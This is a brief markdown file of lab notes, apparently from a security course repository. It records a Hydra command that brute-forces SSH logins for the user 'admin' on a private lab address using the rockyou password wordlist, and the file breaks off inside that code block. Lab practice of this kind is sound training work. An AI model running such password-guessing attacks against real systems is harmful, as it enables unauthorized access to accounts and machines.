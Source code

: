 # Hydra Commands

This file contains all the Hydra commands I used during this lab.

## SSH Example
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<172.19.0.5>
